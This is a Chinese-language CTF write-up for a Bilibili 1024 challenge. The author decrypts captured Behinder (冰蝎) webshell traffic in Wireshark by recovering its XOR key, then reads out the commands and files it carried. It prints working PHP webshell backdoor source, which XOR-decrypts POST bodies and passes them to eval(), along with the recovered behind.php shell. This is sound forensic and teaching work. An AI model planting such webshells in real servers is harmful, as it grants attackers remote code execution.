


# 第三题：猜猜我是谁

> 题目ID:  3题目地址：[ 第3题地址](https://security.bilibili.com/sec1024/crack3/whatbehind.zip)

访问链接，直接下载了一个whatbehind.zip压缩包。根据名字感知应该是隐藏了什么东西。

解压后是一个 whatbehind.pcap 文件，这是一个网络请求报文的归档格式。因此，wireshark 启动。


## 找出可疑的请求

我们第一步是寻找可疑的网络请求，先缩小查找的范围。



按照http筛选后，找到了这些链接，因为URL含有 /server/behind.php 的字符，因此可以肯定这就是有问题的报文了。

一共7次网络请求-响应。

- 请求：以form表单，POST动作发送到服务端。
- 响应：服务端以 text/html 格式返回数据。

粗略看了下payload的数据格式，都是base64编码后的模样。

找一个payload样例进行base64 decode，发现依旧是乱码。**所以进一步推测除了base64 encode，还存在至少一次数据加密。**

考虑到服务端的处理程序为php，那么可以猜测为php webshell 后门。

在CTF领域，最常见的就是菜刀、冰蝎、蚁剑、哥斯拉这类 webshell 软件。

经过一番探索和筛选，最终确认了大概率是冰蝎3+。不是冰蝎2，因为请求中看不见明显的16位秘钥流量特征。冰蝎3+后将密钥写死在webshell文件中。


## 冰蝎 3+



这里列举了冰蝎3+使用的协议方式。简单测试后，推测高概率为base64 + XOR。

- 不可能为base64。
- 不可能为base64 + AES。如果使用AES，那么密钥如何反求？
- ……

确定为 base64 + XOR 之后。为了进一步确认解密的正确性，我们可以阅读冰蝎的webshell源码。


### encode progress

在网上可以找到冰蝎3+的加密过程的代码。

```php
@error_reporting(0);
function main($content)
{
   $result = array();
    // base64 encode
   $result["status"] = base64_encode("success");
   $result["msg"] = base64_encode($content);
   $key = $_SESSION['k'];
   echo encrypt(json_encode($result),$key);
}

function encrypt($data,$key)
{
   if(!extension_loaded('openssl'))
   {
        // XOR encrypt
      for($i=0;$i<strlen($data);$i++) {
         $data[$i] = $data[$i]^$key[$i+1&15];
      }
      return $data;
   }
   else
   {
      return openssl_encrypt($data, "AES128", $key);
   }
}
$content="Y3dDMXpSa2o3OURScHlpcWNMVGVnNEt2ZVUyckR3SkJkcnVZakx4aGRXVnY3MkhkdHBkcFdYMXpJYkRQWVRPWmNhUDRMelhLdVZtT0VHczhCdDdqbmZQME5vOFEyVDdzTTNhajVHZWp4a2FHRkxiSU1UT1U1a0VWeGJIbmRwTkluU3liTkRienQ2QURXbllqOVZRNzRkbktBaGJVeEt2azFvM3M2MWNJU1pMZk1vQWdjY2Z3QnhMRHR1TnlETldaamJKVE8yOTFsU2pvak5jOGdrT2pKYlFwMTIzZnhSUXRHVmhrY05hdmNPbzV5a2tVR2JWQ2s=";
$content=base64_decode($content);
main($content);
```

分析得到加密过程：base64 encode -> XOR(default)/AES(openssl)。这里是 base64 encode -> XOR。


### decode progress

同样地，理解解密的过程。

```php
<?php
@error_reporting(0);
session_start();
// MD5(rebeyond) => e45e329feb5d925ba3f549b17b4b3dde
$key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
$_SESSION['k']=$key;
session_write_close();
$post=file_get_contents("php://input");
if(!extension_loaded('openssl'))
{
    // base64 decode
    $t="base64_"."decode";
    $post=$t($post."");

    // XOR decrypt
    for($i=0;$i<strlen($post);$i++) {
        $post[$i] = $post[$i]^$key[$i+1&15];
    }
    // 此时 $post 为明文文本
}
else
{
    $post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __invoke($p) {eval($p."");}}
@call_user_func(new C(),$params);
?>
```

得到解密过程为：base64decode -> XOR。

具备这些知识后，我们开始进行解题。


## 解题步骤

由于 webshell.php 已被加密，因此需要找出密钥KEY。这步非常关键。解不出密钥KEY，后面步骤就无从下手。

由于冰蝎3+前面一部分代码的开头是固定的，例如：@error_reporting(0);

那么根据XOR的特性，我们可以知道这样一个原理：

- 取一部分密文作为cipher，以及列举出所有已知的代码开头字符串payload。
- 取cipher前面16个字符，与已知开头的前16位字符，作XOR操作。即cipher[0]^payload[0]。得到k0
- 取cipher从16位开始的其他字符，与已知开头的从16位开始的其他字符，取一定的长度例如11位进行对齐，作XOR操作。即cipher[1]^payload[1]。得到k1。
- 如果k1不为空，并且k1是k0的开头，那么可以确定使用了相同的 KEY 异或加密 cipher[0] 和 cipher[1]。由于冰蝎3+的密钥是固定16位，此时k0就是所求的KEY。
- KEY求出后，cipher都会被解开，得到明文的数据包。


## 关键代码实现

### 求解KEY

这里不展示全部代码，需要的话参阅对应github仓库。

关键的求解密钥KEY的函数如下：

```py
def check(cipher):
    cipher = b64decode(cipher)
    for phrase in phrases:
        p0 = phrase[0:16]
        p1 = phrase[16:]

        c0 = cipher[0:16]
        c1 = cipher[16:16 + len(p1)]

        # 16 bits
        k0 = xor(p0, c0)
        # 11 bits
        k1 = xor(p1, c1)

        if (k1 in k0) and k1:
            # k1: 45e329feb5d; k0: 45e329feb5d925be
            print(f'k1: {k1};k0: {k0}')
            return k0
    return None
```

然后，从cipher的开头算起，从16位长度开始，取长度16，20，24，28，...。接着使用上面的check()进行检测。不出意外的话，很快就能解出KEY。


### 解密密文

```php
$key = "flag3{Beh1_nder}";

function decrypt(string $post, string $key): string
{
    // 首先base64解码
    $t = "base64_" . "decode";
    $post = $t($post . "");

    // XOR decrypt
    for ($i = 0; $i < strlen($post); $i++) {
        //  $post[$i] = $post[$i]^$key[$i+1&15];
        //  猜测结果：这里从key[index]从index=0开始
        $post[$i] = $post[$i] ^ $key[$i + 0 & 15];
    }

    return $post;
}
```

定义一个decrypt方法。

然后将wireshark中的请求 form data 导出为 rq-{}.txt，将响应导出为rs-{}.txt文件。

使用for循坏批处理解密，并保存到所在目录下。

```php
for ($i = 1; $i <= 7; $i++) {
    $request= '../text/rq-'.strval($i).'.txt';
    $response = '../text/rs-'.strval($i).'.txt';

    $req_content = file_get_contents($request);
    $resp_content= file_get_contents($response);

    $req_decrypted = decrypt($req_content,$key);
    $resp_decrypted = decrypt($resp_content,$key);

    file_put_contents($request . ".decrypt", $req_decrypted);
    file_put_contents($response . ".decrypt", $resp_decrypted);
}
```


### 从明文中获取信息

RQ-4

````php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDt3aG9hbWk=";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
````

```bash
$cmd = cd /var/www/html/server/ ;whoami
$path= /var/www/html/server/
```

RS-4

```json
{"status":"c3VjY2Vzcw==","msg":"d3d3LWRhdGEK"}
```

```
status: success
msg: www-data
```

---

RQ-5

```php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDtscw==";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
```

```bash
cd /var/www/html/server/ ;ls
/var/www/html/server/
```

RS-5

```json
{"status":"c3VjY2Vzcw==","msg":"YmVoaW5kLnBocApjcmFjazYudHh0Cg=="}
```

```
success

behind.php
crack6.txt
```

---

RQ-6

````php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDtjYXQgYmVoaW5kLnBocA==";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
````

```bash
cd /var/www/html/server/ ;cat behind.php
/var/www/html/server/
```

RS-6

```
PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKCWZ1bmN0aW9uIGRlY3J5cHQoJGRhdGEpCnsKICAgICRrZXk9ImZsYWcze0JlaDFfbmRlcn0iOyAKICAgICRicz0iYmFzZTY0XyIuImRlY29kZSI7CgkkYWZ0ZXI9JGJzKCRkYXRhLiIiKTsKCWZvcigkaT0wOyRpPHN0cmxlbigkYWZ0ZXIpOyRpKyspIHsKICAgIAkkYWZ0ZXJbJGldID0gJGFmdGVyWyRpXV4ka2V5WyRpJTE2XTsgCiAgICB9CiAgICByZXR1cm4gJGFmdGVyOwp9CgkkcG9zdD1EZWNyeXB0KGZpbGVfZ2V0X2NvbnRlbnRzKCJwaHA6Ly9pbnB1dCIpKTsKICAgIGV2YWwoJHBvc3QpOwo\/Pg==
```

> 这里有个小插曲，上面的字符串解密失败了。因为字符串复制过程中末尾多了个 \ 转义符号 ，需要去掉。

```php
<?php
@error_reporting(0);
	function decrypt($data)
{
    $key="flag3{Beh1_nder}";
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i%16];
    }
    return $after;
}
	$post=Decrypt(file_get_contents("php://input"));
    eval($post);
?>
```

---

RQ-7

```php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDtjYXQgY3JhY2s2LnR4dA==";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
```

```
cd /var/www/html/server/ ;cat crack6.txt
/var/www/html/server/
```

RS-7

```json
{"status":"c3VjY2Vzcw==","msg":"aHR0cHM6Ly93d3cuYmlsaWJpbGkuY29tL3JlYWQvY3YxOTE0NTA5MQpoYXZlIGZ1biB3aXRoIDIwMjIgYmlsaWJpbGkgMTAyNCEK"}
```

```
https://www.bilibili.com/read/cv19145091 have fun with 2022 bilibili 1024!
```

---

上面给出了一个b站专栏的链接。访问后可以下载一个压缩包 EzRe.zip。这就是第6题的线索。


## 参考

- [“冰蝎”动态二进制加密网站管理客户端](https://github.com/rebeyond/Behinder)

- [利用动态二进制加密实现新型一句话木马之PHP篇](https://xz.aliyun.com/t/2774)

- [冰蝎v4.0传输协议详解](https://mp.weixin.qq.com/s/EwY8if6ed_hZ3nQBiC3o7A)
